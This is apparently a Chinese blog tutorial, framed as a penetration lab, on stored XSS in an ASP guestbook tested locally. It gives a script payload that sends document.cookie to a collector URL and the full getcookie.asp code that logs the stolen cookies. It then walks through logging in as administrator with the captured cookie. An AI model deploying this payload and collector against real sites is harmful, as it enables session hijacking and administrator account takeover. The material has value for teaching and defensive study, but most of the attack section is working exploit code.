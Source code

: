 ```yaml
---
layout: post

title: "渗透实验之一：浅析XSS攻击"

categories: WebSecurity

tags: XSS

---
```

###摘要
-------
XSS：跨站漏洞，一般出现在可以提交留言的地方，只要网站代码对提交内容过滤不严，都有可能出现跨站攻击。XSS的危害较大，一般表现形式为各种弹窗，可以扩展为广告推广的利器；还有一种表现形式为窃取管理员cookie，从而直接以管理员身份登录，做一些猥琐的事情。

案例概述：基于“逍遥留言版”进行测试（XP系统），默认管理员用户名和密码都是admin

案例详情：在本地配置好asp运行环境（本案例使用easyASPserver-v2.0），测试该留言本可以正常运行。详细实验步骤如下：

案例工具：easyASPserver-v2.0（简易asp服务器）； gbook（包含XSS漏洞的asp留言本程序）；HTMLViewer（cookie利用工具）；

**仅供学习之用，请勿用于非法用途，请君自重！**

###实验步骤
-----------

- 留言本概况如下图所示：右下角为管理员登陆链接
![](http://bravelee.u.qiniudn.com/Exercises1-About-XSS-Image0.png)


- 点击上图的“发表留言”按钮，输入内容如下：`<script>alert("Hello XSS!")</script>`，即下图红框中内容，这段代码仅仅是测试该留言本是否有xss漏洞，无实意。填写完毕，点击“提交留言”即可。
![](http://bravelee.u.qiniudn.com/Exercises1-About-XSS-Image1.png)

- 当管理员登陆后台进行留言管理审核的时候，可以发现提交的内容，当点击该内容时候弹出窗口，说明该系统存在xss漏洞。
![](http://bravelee.u.qiniudn.com/Exercises1-About-XSS-Image2.png)
![](http://bravelee.u.qiniudn.com/Exercises1-About-XSS-Image3.png)
以上操作步骤仅为测试，毫无实际意义。

==========当我们用其他payload替换`<script>alert("Hello XSS!")</script>`内容时效果如下=====

- 以游客身份继续发表留言，这次输入的payload内容为：`<script>document.location='http://127.0.0.1:88/getcookie.asp?msg='+document.cookie</script>`

- 解释：该段代码主要是为了调用getcookie.asp文件进行cookie捕获，一般在实战的时候，先编写getcookie.asp内容，将该文件上传至个人专属空间（支持asp即可），然后发表留言完毕，只要管理员打开提交的留言，其登陆的cookie将会直接根据getcookie.asp设置存储到个人空间中，为了便于演示，只在本地进行测试。

getcookie.asp代码内容如下（代码详解请见文后附录）：

{% highlight php %}
<%
thisfile=Server.MapPath("cookie.txt")
msg=Request("msg")
set fs=server.CreateObject("scripting.filesystemobject")
set thisfile=fs.OpenTextFile(thisfile,8,True,0)
thisfile.WriteLine("=======cookie:"&msg&"====Getcookies，Have fun！")
thisfile.close
set fs=nothing
%>
{% endhighlight %}

根据以上代码，可以发现，只要管理员点击带有xss攻击的链接，将会在攻击者个人空间生成cookie.txt文件，该文件主要负责存储窃取的cookies
![](http://bravelee.u.qiniudn.com/Exercises1-About-XSS-Image4.png)

- 一切就绪，准备发表留言（注意红框里面内容）！
![](http://bravelee.u.qiniudn.com/Exercises1-About-XSS-Image5.png)

- 管理员登陆：
![](http://bravelee.u.qiniudn.com/Exercises1-About-XSS-Image6.png)

- 点击攻击者提交的内容，页面显示空白，注意此时浏览器的地址栏发生变化：
![](http://bravelee.u.qiniudn.com/Exercises1-About-XSS-Image7.png)

- 此时前往个人空间查看，会发现生成cookie.txt文件：
![](http://bravelee.u.qiniudn.com/Exercises1-About-XSS-Image8.png)

- 使用工具，利用窃取的cookie，按照下图输入，直接点击管理员登陆按钮，无需输入用户名和密码直接进入！ It works！
![](http://bravelee.u.qiniudn.com/Exercises1-About-XSS-Image9.png)

所有工具打包下载：[点击下载](http://pan.baidu.com/s/1pJ6Tlb1)


###附录
---------
'映射得到cookie.txt文件路径
thisfile=Server.MapPath("cookie.txt")

'得到请求参数msg值
msg=Request("msg")

'创建一个文件流对象
set fs=server.CreateObject("scripting.filesystemobject")

'追加方式打开文件，从文件尾部开始写入的内容 ;如果文件不存在就创建一个;以 ASCII 格式开启文件
set thisfile=fs.OpenTextFile(thisfile,8,True,0)

'向文件里面写数据
thisfile.WriteLine("=======cookie:"&msg&"======by brave")

'关闭文件流
thisfile.close

'释放文件件流
set fs=nothing